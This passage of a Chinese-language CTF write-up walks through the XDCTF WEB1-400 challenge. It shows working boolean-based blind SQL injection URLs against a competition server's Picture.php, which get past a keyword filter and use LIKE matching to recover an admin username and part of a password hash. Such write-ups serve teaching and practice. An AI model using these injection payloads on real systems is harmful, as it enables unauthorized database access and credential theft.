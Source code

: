 ######flag XDCTF{bf127a6ae4e2_ssrf_to_sqli}

###WEB1-400

查看http://133.130.90.172/47bce5c74f589f4867dbd57e9ca9f808/Picture.php 源码
```
<!--Please input the ID as parameter with numeric value-->
```
根据官方tips 发现存在布尔型的盲注
```
http://133.130.90.172/47bce5c74f589f4867dbd57e9ca9f808/Picture.php?ID=%22%20or%201%23
True
```
```
http://133.130.90.172/47bce5c74f589f4867dbd57e9ca9f808/Picture.php?ID=%22%20or%200%23
False
```
fuzz了一下 发现过滤了select mid sleep left.... 于是想到了用正则匹配猜出username & password

payload
```
http://133.130.90.172/47bce5c74f589f4867dbd57e9ca9f808/Picture.php?ID=%22%20or%20username%20like%20%22%25admin%25
```
username=admin
```
http://133.130.90.172/47bce5c74f589f4867dbd57e9ca9f808/Picture.php?ID=%22%20or%20password%20like%20%22$1$%25
```
![](./3.png)

fuzz到

```
http://133.130.90.172//47bce5c74f589f4867dbd57e9ca9f808/Picture.php?ID=%22%20or%20password%20like%20%225832f4251cb6f43917df%25
True
```
